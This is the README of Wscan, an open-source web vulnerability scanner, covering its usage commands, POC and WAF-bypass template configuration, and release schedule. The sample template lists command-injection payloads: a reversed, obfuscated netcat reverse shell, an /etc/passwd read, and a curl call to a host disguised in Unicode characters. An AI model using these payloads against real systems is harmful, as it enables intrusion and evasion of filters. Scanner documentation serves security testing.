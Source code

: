 # wscan
Wscan is a web security scanner that focuses on WEB security. It pays homage to Nmap, which has been open source for 25 years. We also plan to continuously update and keep Wscan open source for the next 25 years. We welcome anyone interested in web security to join our development team.

Our goal is to develop a tool for penetration testing using machine learning. Unlike other tools, our tool can automatically learn attack and defense patterns and launch personalized attacks based on specific targets. This way, our attack efficiency and accuracy will be significantly improved, while also reducing the probability of false positives.

Our tool employs machine learning technology to achieve fully automated web penetration testing. This means there is no need for manual addition and update of rules and signatures; it can automatically learn and adapt to new attack patterns and vulnerabilities.

Machine learning technology can also quickly process large amounts of data and traffic, thereby greatly improving testing efficiency and accuracy. In addition, it can identify and discover vulnerabilities and weaknesses that are difficult for humans to perceive, thus enhancing testing quality and reliability.

We believe that using machine learning technology for penetration testing will be a crucial direction for the future of network security. We hope that our tool can help more people safeguard network security and contribute to the field of network security.
![](https://ctstack-oss.oss-cn-beijing.aliyuncs.com/tool/github/9f9e48711df62c154bde487c989dd3a9.gif)
# Example Usage 
⬇️[Download Link](https://github.com/chushuai/wscan/releases) [🏠BestPractices](https://github.com/chushuai/wscan/blob/main/doc/BestPractices.md)
```
(1) Active Scan
./wscan  --log-level=debug ws --basic-crawler http://testphp.vulnweb.com/ --json-output=wscan_scan_result.json --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --browser  http://testphp.vulnweb.com/ --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --url http://testphp.vulnweb.com/listproducts.php?cat=1  --json-output=wscan_scan_result.json
./wscan  --log-level=debug ws --url-file=/wscan/url_file.txt --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --poc=/your_wscan_poc/wscan-poc/pocs/* --url http://testphp.vulnweb.com/ --html-output=wscan_scan_result.html

(2) Passive Scan
./wscan  --log-level=debug ws --listen=127.0.0.1:1000 --json-output=wscan_scan_result.json  

(3）POC Scan
    3.1 POC download address https://github.com/chushuai/wscan-poc/releases
    3.2 When Wscan is first run, a file named config.yaml will be generated. You need to modify the following content in this file to specify the path of include_poc.
        prometheus:
            enabled: true
            depth: 1
            auto_load_poc: false
            include_poc:
                - C:\wscan_windows_amd64.exe\wscan-poc-1.0.0\pocs\*.yml
            exclude_poc: [] 
    3.3 Enable --plug=prometheus via command line, and specify the absolute path of --url-file (one URL per line) to conduct large-scale POC detection.
        ./wscan --log-level=debug ws --plug=prometheus  --url-file=/url_file.txt  --html-output=wscan_scan_result.html
(4) Custom web general vulnerability scanning template (Waf bypass/Waf testing)
    4.1 Unlike POC testing, the custom web general vulnerability scanning plugin will perform FUZZ on the parameters at the specified location.
        Sample reference https://github.com/chushuai/wscan/tree/main/core/plugins/custom_tmpl/tmpl/owasp
        Plugin sample
        ---
        payload:
          - $(printf 'hsab/nib/ e- 4321 1.0.0.721 cn'|rev)
          - /etc/passwd
          - "`curl -L http://\u24BC\u24C4\u24C4\u24BC\u24C1\u24BA.\u24B8\u24C4\u24C2`"
        encoder:
          - URL
        placeholder:
          - URLParam
          - HTMLForm
          - HTMLMultipartForm
          - JSONRequest
        type: "RCE"
        ...
    4.2 You need to modify the following content in the config.yaml file to specify the path of include_tmpl.
        enabled: true
        depth: 0
        auto_load_tmpl: false 
        include_tmpl:
          - /wscan/core/plugins/custom_tmpl/tmpl/owasp/*.yml
        exclude_tmpl: [ ]
        block_status_codes: # When blocked by WAF, the HTTP status code list, default value is 403
          - 403
        pass_status_codes: # When not blocked by WAF, the HTTP status code list, default value is 200 or 404
          - 200
          - 404
        block_regex: "" # Regular expression for web pages blocked by WAF
        pass_regex: "" # Regular expression for web pages not blocked by WAF
        non_blocked_as_passed: false
    4.3 Enable --plug=custom_tmpl via command line to conduct custom Payload testing on the target website.
        ./wscan --log-level=debug ws --plug=custom_tmpl  --browser  http://testphp.vulnweb.com/  --html-output=wscan_scan_result.html
(5) Independent deployment of anti-connection module
./wscan  reverse
```




# Project Updates
* 2023.11.05 - Release v1.0.0 binary version, supporting simple web general vulnerability detection
* 2023.11.12 - Release v1.0.1 binary version, with static crawler
* 2023.11.12 - Release v1.0.2 binary version, supporting passive scanning
* 2023.11.19 - Release v1.0.3 binary version, supporting JSONP plugin
* 2023.11.26 - Release v1.0.4 binary version, fixing XSS and SQL injection false negatives, supporting vulnerability detection for individual URLs
* 2023.11.30 - Release v1.0.5 binary version, supporting browser crawler, URL and form intelligent filtering
* 2023.12.02 - Release v1.0.6 binary version, supporting output of scanning results in JSON and HTML formats
* 2023.12.03 - Release v1.0.7 binary version, supporting Yaml POC scanning plugin
* 2023.12.04 - Release v1.0.8 binary version, supporting specifying enabled plugins via command line
* 2023.12.09 - Release v1.0.9 binary version, supporting custom web general vulnerability scanning templates (Waf bypass/Waf testing)
* 2023.12.12 - Release v1.0.10 binary version, directory scanning includes 400 common rules, supporting custom scanning path bruteforce. Supporting ASP and PHP general command execution detection
* 2023.12.24 - Release v1.0.11 binary version, supporting standalone deployment of anti-connection module, with Yaml POC supporting anti-connection function
* 2023.12.30 - Release v1.0.12 binary version, supporting Goby JSON POC plugin, multi-layer URL directory POC scanning
* 2024.01.07 - Release v1.0.13 binary version, supporting XXE, SSRF, Fastjson, Struts2 series vulnerability batch detection
* 2024.01.15 - Release v1.0.14 binary version, supporting batch detection of thinkphp series vulnerabilities
* 2024.01.18 - Release v1.0.15 binary version, supporting PHP, JSP, ASP, ASPX file upload detection, passive scanning, and intelligent request filtering
* 2024.01.21 - Release v1.0.16 binary version, supporting Nuclei Yaml POC plugin, Shiro framework recognition, and default key cracking plugin

# The open-source schedule is outlined as follows  
Wscan's goal is to create an open-source and non-profit project. However, due to the substantial workload involved in Wscan,
the code is still undergoing rapid iterations. Premature open-sourcing may lead to the emergence of various modified versions, 
which is not conducive to the tool's dissemination and the future development of the project. 
Therefore, the plan is to open-source the project in stages and modules, using Stars as a metric, 
to ensure the robustness of the project and organized community participation.

1.  YAML POC Scan Module (Open source when Stars > 400)  
2.  Reverse Connection Module (Open source when Stars > 400)  
3.  SQL Injection Module (Open source when Stars > 500)  
4.  Dynamic Crawler (Open source when Stars > 600)  
5.  Directory Scan Module (Open source when Stars > 700)  
6.  Baseline Scan (Open source when Stars > 800)  
7.  Plugin Scheduling Module Based on Message Subscription (Open source when Stars > 900)  
8.  HTTP Parameter Deformation Module; Traditional Scan Modules All Open Source; Users can modify, compile, and build scanners on their own (Open source when Stars > 1k)  
9.  Machine Learning Module to Reduce False Positives (Open source when Stars > 3k)  
10. Machine Learning Module for Automatic Payload Generation (Open source when Stars > 4k)  

# Star History

[![Star History Chart](https://api.star-history.com/svg?repos=chushuai/wscan,chaitin/xray,projectdiscovery/nuclei&type=Date)](https://star-history.com/#chushuai/wscan&chaitin/xray&projectdiscovery/nuclei&Date)
